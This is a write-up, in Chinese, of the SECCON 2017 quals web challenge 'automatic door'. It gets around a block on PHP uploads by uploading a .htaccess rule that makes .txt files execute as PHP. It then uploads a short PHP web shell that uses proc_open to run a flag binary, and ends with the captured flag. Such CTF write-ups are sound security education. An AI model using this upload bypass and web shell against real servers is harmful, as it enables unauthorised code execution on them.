 # SECCON CTF QUALS 2017 : automatic door

**category** : web

**points** : 500

> Get shell, and execute /flag_x
>
> http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/

## write-up

網站提供 read 和 write 和 看 phpinfo 和 看當前路徑 的功能

主要的思路就是放一個可以用的 webshell 上去 ( `strstr($f, 'ph')` 這行限制了不能上傳 `.php` )

先看 phpinfo 可以看到系統是 `linux` 然後很多被 ban 的 function

![](https://i.imgur.com/5wjyXtQ.png)

所以首先我們先上傳 `.htaccess` 讓我們可以傳 `.txt` 他就會當作 php script 執行

```
AddType application/x-httpd-php .txt
```

我是用 postman 上傳檔案

![](https://i.imgur.com/mqoPozo.png)

`proc_open` 很剛好的沒有被 ban

上傳 `shell.txt` 再去瀏覽 `http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/sandbox/FAIL_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/shell.txt`

```php
<?php
$cwd = '';
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("file", "/tmp/error-output.txt", "a")
);

$process = proc_open("/flag_x", $descriptorspec, $pipes, $cwd);

echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
?>
```

flag : SECCON{f6c085facd0897b47f5f1d7687030ae7}

## other write-ups and resources

* https://ctftime.org/writeup/8340
* https://github.com/p4-team/ctf/tree/master/2017-12-09-seccon-quals/web_automatic
* https://blog.veryhax.ninja/blog/seccon-2017-automatic_door/
